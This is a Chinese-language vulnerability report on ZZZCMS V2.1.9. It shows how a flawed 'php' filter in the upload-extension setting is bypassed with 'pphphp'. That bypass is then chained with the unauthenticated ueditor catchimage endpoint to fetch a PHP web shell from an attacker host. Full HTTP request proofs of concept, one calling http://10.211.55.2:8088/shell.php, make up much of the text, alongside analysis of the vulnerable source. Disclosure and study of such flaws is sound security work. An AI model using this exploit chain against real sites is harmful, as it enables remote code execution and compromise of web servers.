

# ZZZCMS漏洞

## 漏洞1 过滤不严格

### 系统版本

```
V2.1.9正式版 Build20230801
```


后台->文件管理->上传设置->图片上传->图片类型


```
POST /admin/save.php?act=saveupload HTTP/1.1
Host: www.zzcms.io
Content-Length: 1176
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://www.zzcms.io
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/94.0.4606.71 Safari/537.36 SE 2.X MetaSr 1.0
Accept: text/html,application/xhtml xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://www.zzcms.io/admin/index.php?act=uploadset
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: zzz271_adminpass=1; zzz271_adminname=admin; zzz271_adminface=../plugins/face/face01.png; PHPSESSID=cird4j68rud1tppfn20jm51mc0; zzz811_token=7d40f662994070a3eb4ff0a52992a688; zzz271_admintime=1696660830
Connection: close

token=5fa0c8fe32bf6ab09ae6f3bd358107d7&timestamp=1696666974&uploadmark=1&uploadpath=upload/&datefolder=1&covermark=1&imageext=jpg,jpeg,gif,png&imagemaxsize=2mb&imageformat=shijian&compresswidth=2000&compressheight=2000&compressquality=80&fileext=pdf,txt,doc,docx,xls,xlsx,zip,rar&filemaxsize=10mb'&fileformat=pinyin&videoext=mp4,flv,swf&videomaxsize=20mb&videoformat=pinyin&smallmodel=选择模型&about_mode=5&about_width=300&about_height=300&about_quality=80&brand_mode=5&brand_width=400&brand_height=400&brand_quality=80&product_mode=5&product_width=300&product_height=300&product_quality=80&news_mode=5&news_width=300&news_height=300&news_quality=90&job_mode=5&job_width=350&job_height=350&job_quality=80&down_mode=5&down_width=300&down_height=400&down_quality=80&case_mode=5&case_width=300&case_height=500&case_quality=80&video_mode=5&video_width=400&video_height=500&video_quality=80&photo_mode=5&photo_width=500&photo_height=300&photo_quality=80&watertype=0&watermarkfont=zzzcms发生地方&watermarkpic=/images/logo.png&markpicwidth=100&markpicheight=30&markpicalpha=1&watermarklocation=1
```

修改`imageext`参数`imageext=jpg,jpeg,gif,pngf,pphph`


#### 代码分析

`admin/save.php`中`save_upload`方法1512行


```
$imageext=str_replace(array('php','bat','js','.',';'),'',$imageext);
```

仅对`$imageext`参数做了对`php`字符串的替换，可通过`pphphp`字符串绕过

## 漏洞2 任意文件上传

### 系统版本

```
V2.1.9正式版 Build20230801
```



### 漏洞详情

结合漏洞1设置允许上传PHP后缀文件直接上传远程php文件


#### POC

```
POST /plugins/ueditor/php/controller.php?action=catchimage&encode=utf-8 HTTP/1.1
Host: www.zzcms.io
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/94.0.4606.71 Safari/537.36 SE 2.X MetaSr 1.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: zzz271_adminpass=1; zzz271_adminname=admin; zzz271_adminface=..%2Fplugins%2Fface%2Fface01.png; PHPSESSID=cird4j68rud1tppfn20jm51mc0; zzz811_token=7d40f662994070a3eb4ff0a52992a688; zzz271_admintime=1696660830
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 42

source[]=http://10.211.55.2:8088/shell.php
```


#### 代码分析

```
plugins/ueditor/php/controller.php
```

```php
<?php
require '../../../inc/zzz_admin.php';
$CONFIG = json_decode(preg_replace("/\/\*[\s\S]+?\*\//", "", file_get_contents("config.json")), true);
$action = safe_word(getform('action','get'));
$upfolder = safe_word(getform('upfolder','get'));
switch ($action) {
    case 'config':
        $result = json_encode($CONFIG);
        break;    
    /* 上传图片 */
    case 'uploadimage':
		$r=upload($_FILES['upfile'],'image',$upfolder);
		if($r['code']>0){
			$result =tojson(['state'=>'SUCCESS','title'=>$r['title'],'url'=>$r['url']]);
		}		
        break;   
    /* 上传涂鸦 */
    case 'uploadscrawl':   
		$upfile=getform('upfile','post');
    	$result =tojson(up_base64($upfile,$upfolder));
        break;   
    /* 上传文件 */
    case 'uploadfile':
       $r =upload($_FILES['upfile'],'file',$upfolder);
	   if($r['code']>0){
			$result =tojson(['state'=>'SUCCESS','title'=>$r['title'],'url'=>$r['url']]);
		}else{
			$result =tojson($r);
		}
        break;    
    /* 上传视频 */
	case 'uploadvideo':
		$r=upload($_FILES['upfile'],'video',$upfolder);
		if($r['code']>0){
			$result =tojson(['state'=>'SUCCESS','title'=>$r['title'],'url'=>$r['url']]);
		}else{
			$result =tojson($r);
		}
        break;  
	 /* 列出图片 */
    case 'listimage':
		$size=safe_word(getform('size','get'));
		$start=safe_word(getform('start','get'));
		$uporder=safe_word(getform('uporder','get'));
		$end = $start + $size;
		$allowFiles=str_replace(",","|",conf('imageext'));
		$path = getform('path','get') ;
		$path = $path ? SITE_DIR.$path.'/' : UPLOAD_DIR.$upfolder.'/';
		$path=str_replace('//','/',$path);
		$files = path_list($path, $allowFiles);
		foreach($files as $k=>$v){
			$sizes[$k] = $v['size'];
			$times[$k] = $v['mtime'];
			$names[$k] = $v['title'];
		}
		switch($uporder){
			case'size1'	: array_multisort($sizes,SORT_DESC,SORT_STRING, $files);break;
			case'size2'	: array_multisort($sizes,SORT_ASC,SORT_STRING, $files);break;	
			case'name1'	: array_multisort($names,SORT_DESC,SORT_STRING, $files);break;			
			case'mtime2'	: array_multisort($times,SORT_ASC,SORT_STRING, $files);break;	
			case'mtime1': array_multisort($times,SORT_DESC,SORT_STRING, $files);break;
			default;
		}	
		if (! count($files)) {
			return json_encode(array(
				"state" => "no match file",
				"list" => array(),
				"start" => $start,
				"total" => count($files)
			));
		}
		$len = count($files);

		for ($i =$start,$list = array(); $i <= $len-1 &&  $i <= $end; $i ++) {
			$list[] = $files[$i];			
		}
		$result = json_encode(array(
			"state" => "SUCCESS",
			"list" => $list,
			"start" => $start,
			"total" => count($files)
		));		
        break;
    /* 列出文件 */
    case 'listfile':
		$size=safe_word(getform('size','get'));
		$start=safe_word(getform('start','get'));
		$uporder=safe_word(getform('uporder','get'));
		$allowFiles=str_replace(",","|",conf('fileext'));
		$path = getform('path','get') ;
		$path = $path ? SITE_DIR.$path.'/' : UPLOAD_DIR.$upfolder.'/';
		$path=str_replace('//','/',$path);
		//echop($path);
		$files = path_list($path, $allowFiles);			
		$len = count($files);

		for ($i =$start,$list = array(); $i <= $len-1 &&  $i <= $len ; $i ++) {
			$list[] = $files[$i];			
		}
		$result = json_encode(array(
			"state" => "SUCCESS",
			"list" => $list,
			"start" => $start,
			"path" => $path,
			"total" => count($files)
		));		
        break;
    
    /* 抓取远程文件 */
    case 'catchimage':
		$source=getform('source','post');
		$list = array();
     	foreach ($source as $imgUrl) {
			$info =down_url(safe_url($imgUrl),$upfolder); 
			if ($info['code']>0){
				array_push($list, array(			
					"state" => "SUCCESS",				
					"title" => $info["data"],
					"url" => $info["data"],
					"source"=>$imgUrl
				));
			}
		}
		$result =  json_encode(array(
			'state' => count($list) ? 'SUCCESS' : 'ERROR',
			'list' => $list
		));
        break;
    default:
        $result = json_encode(array(
            'state' => '请求地址出错'
        ));
        break;
}
/* 输出结果 */
if (isset($_GET["callback"])) {
    if (preg_match("/^[\w_]+$/", $_GET["callback"])) {
        echo htmlspecialchars($_GET["callback"]) . '(' . $result . ')';
    } else {
        echo json_encode(array(
            'state' => 'callback参数不合法'
        ));
    }
} else {
    echo($result);
}
```

该文件并未做鉴权访问，可未授权访问。其中当`$action`值为`catchimage`时进入`down_url`方法


```
inc/zzz_file.php
```

```php
function down_url( $url, $save_dir='file', $filename = '', $type = 0 ) {
	if ( is_null( $url ) ) return array( 'msg' => '内容为空', 'state' => 'ERROR',  'error' => 1 );
	$save_dir = SITE_DIR.conf('uploadpath').$save_dir.'/';
	if ( trim( $filename ) == '' ) { //保存文件名
		$file_ext	=	file_ext( $url ) ?: 'jpg';
		$filename	=	file_pre( $url ).'.'.$file_ext;
	}else{
		$file_ext	=	file_ext( $url ) ?: 'jpg';
	}
	$allext=conf('imageext').','.conf('fileext').','.conf('videoext');
	if(!in_array($file_ext,splits($allext,','))){
		return array( 'msg' => '创建文件失败,禁止创建'.$file_ext.'文件！', 'state' => 'ERROR',  'error' => 5 );
	}
	//创建保存目录 
	if ( !file_exists( $save_dir ) && !mkdir( $save_dir, 0777, true ) ) {
		return array( 'msg' => '创建文件夹失败', 'state' => 'ERROR',  'error' => 5 );
	}
	$file_dir = $save_dir . $filename;
	$file_path = str_replace( SITE_DIR, SITE_PATH, $file_dir );
	if ( file_exists( $file_dir ) )	del_file( $file_dir );
	//获取远程文件所采用的方法  
	if ( $type ) {
		$ch = curl_init();
		$timeout = 5;
		curl_setopt( $ch, CURLOPT_URL, $url );
		curl_setopt( $ch, CURLOPT_RETURNTRANSFER, 1 );
		curl_setopt( $ch, CURLOPT_CONNECTTIMEOUT, $timeout );
		$img = curl_exec( $ch );
		curl_close( $ch );
	} else {
		ob_start();//本地缓存
		readfile( $url );
		$img = ob_get_contents();
		ob_end_clean();
	}
	$fp2 = @fopen( $file_dir, 'a' );
	fwrite( $fp2, $img );
	fclose( $fp2 );
	unset( $img, $url );
	$size= filesize($file_dir);
	if($size){
		return array('state'=> 'SUCCESS','title' => $filename, 'dir' => $file_dir, 'ext' => $file_ext, 'url' => $file_path,'size'=>$size );
	}else{
		return array('state'=> 'ERROR','msg'=>'文件下载失败，有防盗链限制','title' => $filename, 'dir' => $file_dir, 'ext' => $file_ext, 'path' => $file_path,'size'=>$size );
	}
	
}
```


第1240行-第1253行

当`$filename`为空时`$filename`的值为远程文件的文件名称

在漏洞1中已设置配置文件config.php中imageext参数允许php后缀名上传，则绕过1247行检查文件后缀代码